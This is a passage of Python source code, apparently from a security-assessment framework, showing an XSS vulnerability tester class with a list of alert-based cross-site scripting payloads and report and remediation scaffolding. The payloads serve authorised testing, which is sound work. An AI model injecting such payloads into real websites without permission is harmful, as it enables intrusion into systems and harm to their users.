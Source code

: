 ```python
                    'Regular penetration testing schedule',
                    'Security code review processes',
                    'Developer security training programs'
                ],
                'timeline': 'Long-term (within 3 months)'
            }
        ]
        
        return recommendations

# Cross-Site Scripting (XSS) Vulnerability Assessment
class XSSVulnerabilityTester:
    """
    Cross-site scripting vulnerability assessment and exploitation framework
    """
    
    def __init__(self, target_url: str):
        self.target_url = target_url
        self.xss_payloads = [
            "<script>alert('XSS')</script>",
            "javascript:alert('XSS')",
            "<img src=x onerror=alert('XSS')>",
            "';alert('XSS');//",
            "<svg onload=alert('XSS')>",
            "\"><script>alert('XSS')</script>",
            "<iframe src=javascript:alert('XSS')></iframe>",
            "<body onload=alert('XSS')>",
            "<div onmouseover=alert('XSS')>hover</div>",
            "<input onfocus=alert('XSS') autofocus>"
        ]
    
    def assess_xss_vulnerabilities(self, input_fields: List[str]) -> Dict[str, Any]:
        """
        Comprehensive XSS vulnerability assessment
        
        ETHICAL TESTING ONLY - Use only on systems you own or have permission to test
        """
        print("=== XSS VULNERABILITY ASSESSMENT ===\n")
        
        assessment_report = {
            'target': self.target_url,
            'fields_tested': input_fields,
            'vulnerabilities_found': [],
            'exploitation_scenarios': [],
            'risk_rating': 'LOW',
            'remediation_recommendations': []
        }
        
        for field in input_fields:
            vulnerabilities = self._test_field_for_xss(field)
            if vulnerabilities:
                assessment_report['vulnerabilities_found'].extend(vulnerabilities)
                
                # Develop exploitation scenarios
                scenarios = self._develop_xss_exploitation_scenarios(field, vulnerabilities)
                assessment_report['exploitation_scenarios'].extend(scenarios)
        
        # Calculate risk and generate recommendations
        assessment_report['risk_rating'] = self._calculate_xss_risk_rating(
            assessment_report['vulnerabilities_found']
        )
        assessment_report['remediation_recommendations'] = self._generate_xss_remediation_plan()
        
```
